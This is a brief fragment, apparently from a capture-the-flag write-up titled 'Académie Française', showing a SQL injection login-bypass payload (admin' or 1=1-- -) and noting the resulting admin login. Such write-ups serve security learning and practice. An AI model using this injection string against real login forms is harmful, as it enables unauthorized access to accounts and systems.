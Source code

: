 # Académie Française

```
admin' or 1=1-- -
admin' or 1=1-- -
```

We are logged with `adminor11` credentials.

